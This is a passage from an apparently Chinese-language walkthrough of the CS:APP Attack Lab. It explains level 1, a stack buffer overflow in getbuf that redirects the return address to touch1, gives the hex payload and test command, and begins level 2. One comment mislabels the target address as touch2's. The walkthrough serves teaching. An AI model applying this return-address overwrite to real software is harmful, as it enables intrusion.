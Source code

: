 当getbuf函数正常结束时，会正常返回到test函数，进行printf的调用。**我们的任务就是使getbuf函数执行后不返回到test函数，而去执行touch1函数**。

```c
void touch1()  
{
    vlevel = 1;  /*Part of validation protocol  */
 	printf("Touch1!: You called touch1()\n");  
    validate(1);  
    exit(0);
 }
```

**一些建议**

* 使用`objdump -d ctarget > ctarget.s`命令将ctarget代码进行反汇编，观察ctarget的反汇编代码。

* 思路是将`touch1`的开始地址，放在某个位置，以实现当`ret`指令被`getbuf`执行后会将控制权转移给`touch1`。
* 注意字节序。

<img src="http://shixiaozhong.oss-cn-hangzhou.aliyuncs.com/img/image-20221022171746118.png" alt="image-20221022171746118" style="zoom:67%;" />

先看看getbuf的汇编代码代码，首先开辟40个字节的栈帧空间，然后栈顶指针rsp作为第一个参数去调用Gets函数。所以读入的第一个字符就是放在栈顶。画一个函数的栈帧空间就可以发现我们只要将返回地址设置位touch1的起始地址就可以解决，可以在ctarget.s文件中看到touch1的首地址为0x00000000004017c0,所以可以构建输入的16进制序列。

```cpp
ans1.txt:
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00		// 将buf数组读满，getbuf函数开辟的字节数为40个字节	
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00		
c0 17 40 00 00 00 00 00	  // 返回地址设置为函数touch2的起始地址
```

最后getbuf函数结束调用，最后调用retq指令，跳转到touch1函数，去执行touch1函数。

可以测试执行`./hex2raw < ans1.txt | ./ctarget -q`看看对不对，结果为pass就是正确的。



<img src="http://shixiaozhong.oss-cn-hangzhou.aliyuncs.com/img/image-20221022172720853.png" alt="image-20221022172720853" style="zoom:67%;" />

![image-20221022173551091](http://shixiaozhong.oss-cn-hangzhou.aliyuncs.com/img/image-20221022173551091.png)



##### level2

level2需要注入一小段代码。看看touch2的源代码，我们的任务是让getbuf函数不返回到test函数，而去执行touch2函数。

```c
void touch2(unsigned val) 	// touch2函数有一个参数，并且只有当参数为cookie时，才是正确执行
{
    vlevel = 2;  
    if (val == cookie) 
    {  
        printf("Touch2!: You called touch2(0x%.8x)\n", val);  
        validate(2);  
    } 
    else
    {  
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

